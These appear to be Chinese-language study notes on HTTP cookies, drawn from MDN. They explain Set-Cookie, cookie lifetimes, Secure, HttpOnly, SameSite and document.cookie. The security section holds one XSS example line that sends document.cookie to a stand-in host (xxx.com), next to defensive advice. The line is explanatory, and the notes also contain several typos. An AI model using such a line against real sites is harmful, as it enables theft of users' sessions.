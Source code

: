# HTTP cookies

> [HTTP cookies \- HTTP \| MDN](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Cookies)

HTTP cookie（又叫 web cookie 或 浏览器 cookie），是服务器发送到用户浏览器并保存在本地的一小块数据，它会在浏览器下次向同一服务器再发起请求时被携带并发送到服务器上。

通常，它用于高速服务端两个请求是否来自同一浏览器，比如保持用户的登录状态。

Cookie 使基于无状态的 HTTP 协议记录稳定的状态信息成为了可能。

Cookie 主要用于以下三个方面：

- 会话状态管理（如登录状态、购物车、游戏分数等）
- 个性化设置（如用户自定义设置、主题等）
- 浏览器行为追踪（如跟踪分析用户行为等）

## 创建 Cookie

服务器使用 `Set-Cookie` 响应头部向用户代理发送 Cookie 信息。

```
Set-Cookie: <cookie 名>=<cookie值>
```

可以使用多个 Set-Cookie 头来设置多个 Cookie。

Cookie 的过期时间、域、路径、有效期、适用站点都可以根据需要来指定。

当浏览器发起请求时，会将之前保存的额 Cookie 信息通过 Cookie 请求头部发送给服务器。

## 定义 Cookie 的生命周期

- 会话期 Cookie：仅在会话期生效。不需要指定过期时间（Expires）或有效期（Max-Age）。（但有的浏览器提供会话恢复功能，这样即使关闭浏览器也会保留会话期 Cookie，导致生命周期无限期延长）
- 持久性 Cookie：由过期时间（Expires）或有效期（Max-Age）指定一段时间。

## 限制访问 Cookie

- `Secure` 属性：标记 Secure 的 Cookie 只应通过被 HTTPS 协议加密过的请求发送给服务端，因此可以预防中间人攻击。（即使使用了 Secure，使用 Cookie 传输敏感信息也是不够安全的）

- `HttpOnly`属性：document.cookie 无法访问带有 HttpOnly 的 Cookie，此类 Cookie 仅作用域服务器。此预防措施有助于缓解 跨站脚本（XSS）攻击（避免js读取和操作 cookie）。

## Cookie 的作用域

- Domain 属性：指定了哪些主机可以接受 Cookie。如果不指定，默认 origin，不包含子域名。如果指定了 Domain，则一般包含子域名。

- Path 属性：指定了主机下的哪些路径可以接受 Cookie。（该 URL 路径必须存在于请求 URL 中）。以 "/" 作为路径分隔符，子路径也会被匹配。

- SameSite 属性：允许服务器要求某个 cookie 在跨站请求时不会被发送，从而阻止跨站请求伪造攻击（CSRF）。

SameSite 的值：

- None。不限制，同站、跨站请求下都会发送 cookies。
- Strict。浏览器只在访问相同站点时发送 cookies。
- Lax。与 Strict 类似，但用户从外部站点导航至 URL 时（例如荣国链接）除外。

## JS 通过 document.cookie 访问 Cookie

document.cookie 其实是 get/set 访问器，可以访问非 HttpOnly 标记的 cookie，也可以使用赋值的方式创建新的 Cookie。

如果要删除 cookie，可以用赋值但修改 Expires/Max-Age 的方式使 cookie 过期，从而达到删除的效果。

## 安全

- 跨站脚本攻击（XSS）：借助 document.cookie 窃取 cookie。

```js
(new Image()).src = "http://xxx.com/eval.php?cookie=" + document.cookie
```

- 跨站请求伪造（CSRF）
  - 对用户输入进行过滤来组织 XSS
  - 任何敏感操作都要确认
  - 用于敏感信息的 Cookie 只能拥有较短的生命周期
  - 设置 SameSite